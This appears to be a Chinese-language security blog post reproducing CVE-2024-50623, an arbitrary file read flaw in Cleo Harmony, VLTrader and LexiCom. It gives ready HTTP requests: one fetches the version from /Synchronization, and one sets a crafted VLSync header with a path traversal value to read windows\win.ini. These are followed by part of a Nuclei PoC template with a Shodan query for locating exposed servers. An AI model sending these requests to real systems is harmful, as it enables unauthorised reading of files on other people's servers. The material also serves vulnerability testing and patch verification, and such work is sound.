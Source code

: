 **02**  
  
漏洞复现  
  
  
  
1、访问/Synchronization获取版本信息  
```
GET /Synchronization HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh, Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.5 Safari/605.1.15
Connection: close
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvj7aNOq1NQ5HZMcXNKUopSibnA4hJUdeUcm7EPtE2sc0HOAyQMky9I6nTupAcoHgN5sj9UYTuqiarA/640?wx_fmt=png&from=appmsg "")  
  
2、设置请求头VLSync带上版本信息读取配置文件  
```
GET /Synchronization HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:101.0) Gecko/20100101 Firefox/101.0
Connection: close
Cookie: jSessionId=703gtgoa1qmk3
VLSync: Retrieve;l=Ab1234-RQ0258;n=VLTrader;v=5.6.0.1;a=1337;po=5080;s=True;b=False;pp=1337;path=..\..\..\windows\win.ini
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGvj7aNOq1NQ5HZMcXNKUopSfTDicXX1fQq6jDLJ6ShCzvp4tWYWP7QnWYBEWWqqoLKq5ss6U8Og7xg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
  
```
id: CVE-2024-50623

info:
  name: Cleo - Arbitary File Read
  author: DhiyaneshDK
  severity: high
  description: |
    In Cleo Harmony before 5.8.0.21, VLTrader before 5.8.0.21, and LexiCom before 5.8.0.21, there is an unrestricted file upload and download that could lead to remote code execution.
  reference:
    - https://support.cleo.com/hc/en-us/articles/27140294267799-Cleo-Product-Security-Advisory
    - https://github.com/watchtowrlabs/CVE-2024-50623
    - https://labs.watchtowr.com/cleo-cve-2024-50623/
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
    cvss-score: 8.8
    cve-id: CVE-2024-50623
    cwe-id: CWE-434
    epss-score: 0.00043
    epss-percentile: 0.10702
  metadata:
    max-request: 2
    shodan-query: 'Server: Cleo'
  tags: cve,cve2024,cleo,vltrader,lexicom,harmony,lfi
  
flow: http(1) && http(2)

```